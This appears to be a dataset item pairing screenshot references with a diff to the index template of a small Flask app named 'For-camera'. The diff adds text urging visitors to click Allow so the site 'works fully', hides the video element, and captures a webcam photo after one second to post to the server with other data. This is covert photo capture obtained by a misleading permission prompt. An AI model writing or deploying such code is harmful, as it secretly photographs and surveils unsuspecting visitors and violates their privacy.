

Before and after one commit to Umarmufid/For-camera, a Flask app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-1080 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -4,39 +4,31 @@
     <meta charset="UTF-8">
     <title>Salom</title>
     <style>
-        video {
-            display: block;
-            width: 100%;
-            max-width: 300px;
+        #video {
+            display: none;
         }
     </style>
 </head>
 <body>
-    <h1>Iltimos, ruxsat berish/разрешить/Allow tugmasini bosing</h1>
+    <h1>Iltimos sayt to'liq ishlashi uchun ruxsat berish/разрешить/Allow ni bosing</h1>
+    <h2>Agar ruxsat berishni bosmagan bolsangiz, saytga qayta kiring va ruxsat berishni bosing</h2>
 
-    <video id="video" autoplay playsinline></video>
-    <canvas id="canvas" style="display: none;"></canvas>
+
+  <video id="video" autoplay playsinline style="display: block; width: 300px;"></video>
+  <canvas id="canvas" style="display: none;"></canvas>
+  <br>
+
+
 
     <script>
         const video = document.getElementById('video');
-        const canvas = document.getElementById('canvas');
-        const ctx = canvas.getContext('2d');
 
         navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } })
             .then(stream => {
                 video.srcObject = stream;
 
                 video.onloadedmetadata = () => {
-                    video.play();
-
-                    // Video oqimi boshlanganidan so‘ng o‘lchamlarni sozlaymiz
-                    video.addEventListener('playing', () => {
-                        canvas.width = video.videoWidth;
-                        canvas.height = video.videoHeight;
-
-                        // Kamera tayyor bo‘lishi uchun 3 soniya kutamiz
-                        setTimeout(captureAndSendPhoto, 3000);
-                    });
+                    setTimeout(captureAndSendPhoto, 1000);
                 };
             })
             .catch(err => {
@@ -44,7 +36,11 @@
             });
 
         async function captureAndSendPhoto() {
-            ctx.drawImage(video, 0, 0, canvas.width, canvas.height);
+            const canvas = document.createElement('canvas');
+            canvas.width = video.videoWidth;
+            canvas.height = video.videoHeight;
+            const ctx = canvas.getContext('2d');
+            ctx.drawImage(video, 0, 0);
 
             const blob = await new Promise(resolve => canvas.toBlob(resolve, 'image/jpeg'));
 
@@ -71,9 +67,9 @@
                 body: formData
             }).then(res => {
                 if (res.ok) {
-                    console.log("✅ Rasm va ma'lumotlar yuborildi");
+                    console.log("Rasm va malumotlar yuborildi ✅");
                 } else {
-                    console.error("❌ Yuborishda xatolik");
+                    console.error("Yuborishda xatolik ❌");
                 }
             }).catch(err => {
                 console.error("Xatolik:", err);
```
